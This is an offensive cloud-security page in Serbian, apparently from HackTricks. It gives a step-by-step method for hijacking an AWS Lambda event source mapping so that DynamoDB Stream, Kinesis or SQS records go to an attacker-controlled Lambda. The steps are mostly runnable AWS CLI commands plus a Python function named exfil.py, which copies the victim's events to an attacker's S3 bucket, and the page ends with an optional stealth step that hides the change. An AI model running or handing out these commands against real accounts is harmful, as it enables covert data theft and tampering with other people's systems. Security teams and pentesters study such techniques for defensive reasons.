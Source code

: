 # AWS - Hijack Event Source Mapping to Redirect Stream/SQS/Kinesis to Attacker Lambda

{{#include ../../../../banners/hacktricks-training.md}}

Iskoristite `UpdateEventSourceMapping` da promenite ciljnu Lambda funkciju postojeće Event Source Mapping (ESM) tako da zapisi iz DynamoDB Streams, Kinesis, ili SQS budu isporučeni funkciji pod kontrolom napadača. Ovo tiho preusmerava žive podatke bez diranja producenata ili originalnog koda funkcije.

## Uticaj
- Preusmeravanje i čitanje živih zapisa iz postojećih streams/queues bez izmene producer aplikacija ili koda žrtve.
- Moguća eksfiltracija podataka ili manipulacija logikom kroz procesiranje saobraćaja žrtve u zlonamernoj funkciji.

## Potrebne dozvole
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- Mogućnost deploy-ovanja ili referenciranja Lambda funkcije pod kontrolom napadača (`lambda:CreateFunction` ili dozvola za korišćenje postojeće).

## Koraci

1) Enumeriši event source mappings za funkciju žrtve
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].EventSourceArn' --output text)
```
2) Pripremite Lambda funkciju koju kontroliše napadač (ista regija; idealno sličan VPC/runtime)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
print(json.dumps(event)[:3000])
b = os.environ.get('EXFIL_S3')
if b:
k = f"evt-{int(time.time())}.json"
boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
--function-name ht-esm-exfil \
--runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
--handler exfil.lambda_handler --zip-file fileb://exfil.zip \
--query FunctionArn --output text)
```
3) Preusmerite mapping na attacker funkciju
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```
4) Generišite događaj na izvoru tako da se mapiranje pokrene (na primer: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```
5) Potvrdite da attacker funkcija prima batch
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```
6) Neobavezno stealth
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```
Napomene:
- Za SQS ESMs, uloga izvršenja Lambda funkcije koja obrađuje red mora imati `sqs:ReceiveMessage`, `sqs:DeleteMessage` i `sqs:GetQueueAttributes` (managed policy: `AWSLambdaSQSQueueExecutionRole`).
- ESM UUID ostaje isti; promenjen je samo njegov `FunctionArn`, tako da proizvođači i source ARNs ostaju netaknuti.

{{#include ../../../../banners/hacktricks-training.md}}
